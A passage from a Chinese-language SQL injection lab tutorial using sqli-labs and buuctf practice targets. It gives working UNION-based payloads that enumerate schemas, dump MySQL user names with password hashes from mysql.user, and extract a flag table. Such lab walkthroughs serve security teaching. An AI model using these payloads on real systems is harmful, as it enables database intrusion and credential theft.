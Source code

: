   ```
  - 查询mysql数据表

  - ```
    11 union select 1,group_concat(table_name) from information_schema.tables where table_schema='mysql'
    ```

  - ![image-20220813152840728](assets/image-20220813152840728.png)

  - 查询user字段名

  - ```
    11 union select 1,group_concat(column_name) from information_schema.columns where table_schema='mysql'
    ```

    

  - ![image-20220813153401826](assets/image-20220813153401826.png)

  - 查询user,authentication_string数据

  - ```
    11 union select 1,group_concat(User,authentication_string) from mysql.user
    ```

    

  - ![image-20220813153556945](assets/image-20220813153556945.png)

  - 这里我在sqli数据库中找到了flag表

  - ![image-20220813153901329](assets/image-20220813153901329.png)

  - 查询flag表的所有字段

  - ```
    11 union select 1,group_concat(column_name) from information_schema.columns where table_schema='sqli'
    ```

    ![image-20220813154146058](assets/image-20220813154146058.png)

  - 查询flag

  - ```
    11 union select 1,group_concat(flag) from sqli.flag
    ```

    

  - ![image-20220813154431944](assets/image-20220813154431944.png)

  - 至此咱的数字型注入就结束了，如果换成其他类型的注入除了构造payload不同以外，其他的查询都是一样的，因此，之后的其他类型注入我们只找到注入点，详细的查询参考上面的数字型注入即可或者直接使用sqlmap也行


## 1.2-字符型注入

- 接下来为了方便查看源码我在本地搭建了一个sql注入的靶场，使用的是php7的sqli-labs
- 下载地址：https://github.com/skyblueee/sqli-labs-php7
- 或者直接使用buuctf中的sqli-labs靶场，可以自己复刻一份源码在本地上查看
- 打开sqli-labs的第三关我们直接查看是get请求，提示我们添加一个id参数
  ```
